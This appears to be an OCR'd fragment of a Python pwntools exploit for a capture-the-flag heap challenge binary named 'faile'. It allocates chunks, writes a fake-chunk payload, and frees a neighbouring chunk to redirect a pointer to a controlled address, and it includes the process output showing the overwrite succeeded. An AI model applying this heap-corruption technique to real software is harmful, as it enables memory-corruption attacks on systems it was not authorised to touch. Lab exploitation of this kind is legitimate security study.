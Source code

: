 ```python
# 0x006020.. ...
# 0x006021c0 faile

bins[0] = create(0x80)
bins[1] = create(0x80)
bins[2] = create(0x80)
bins[3] = create(0x80)
bins[4] = create(0x80)

log.info('bin[0] ' + bins[0])
log.info('bin[1] ' + bins[1])
log.info('bin[2] ' + bins[2])
log.info('bin[3] ' + bins[3])
log.info('bin[4] ' + bins[4])

payload  = ''
payload += p64(0)
payload += p64(0)
payload += p64(0x00602010)
payload += p64(0x00602018)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0x80)
payload += p64(0x90)

edit(bins[0], payload)
delete(bins[1])

log.info('bin[0] now should be pointing to 0x602010')

'''
[+] Starting local process '/Challanges/faile': pid 1683
[*] bin[0] 697deecef99bfcff
[*] bin[1] 029f610bcdc347ab
[*] Switching to interactive mode
|--> 697deecef99bfcff, 0x602010 <-- controlled
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
===========
[1] Create
[2] Edit
[3] Delete
[4] Print
[5] Exit
'''

```
